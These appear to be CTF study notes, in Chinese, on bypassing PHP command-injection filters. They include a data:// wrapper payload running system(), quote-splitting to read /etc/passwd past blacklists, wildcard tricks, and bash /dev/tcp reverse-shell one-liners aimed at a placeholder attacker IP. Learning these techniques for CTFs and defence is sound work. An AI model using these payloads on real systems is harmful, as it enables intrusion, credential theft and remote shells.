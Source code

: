 **localeconv() 函数**返回一包含本地数字及货币格式信息的数组。其中**第一位就是点号**

**pos()函数**就是取数组的第一位元素并返回，所以就得到了点号
#### php限制绕过

 php的限制一般是用于防止后缀和嵌套php文件

后缀的话一般就用通配符就可以绕过了

限制嵌套php文件的话，若对传入的c进行php的过滤，那该怎么绕过呢？

例如原有这样一个语句

```cobol
?c=data://text/plain,<?php system("cat flag.*hp");?>
```

 那就可以用如下语句代替

```cobol
?c=data://text/plain,<?= system("cat flag.*hp");?>
```

 ==即**等于号**可以代替**php文件标识处的"php"**==

可以看到，这样仍能执行
##### 黑名单绕过
###### 连接符绕过

**单引号‘’，双引号“”，反斜杠`**如：

```php
 /'b'i'n'/'c'a't' /'e't'c'/'p'a's's'w'd
```
![[Pasted image 20231213152044.png]]
###### **常见的特殊**
![[Pasted image 20231213190512.png]]


| ？ | 匹配单个字符如果匹配多个字符，就需要多个?连用 |
| ---- | ---- |
| * | * 代表任意数量的字符 |
| [ ] | 代表一定有一个在括号内的字符(非任意字符)。例如 [abcd] 代表一定有一个字符， 可能是 a, b, c, d 这四个任何一个 |


![[Pasted image 20231213160250.png]]

##### 反弹shell

bash方式

```ruby
$ bash -c "sh >& /dev/tcp/your ip/port 0>&1"
```

exec方式

```cobol
$ exec 5<>/dev/tcp/ip/port
```
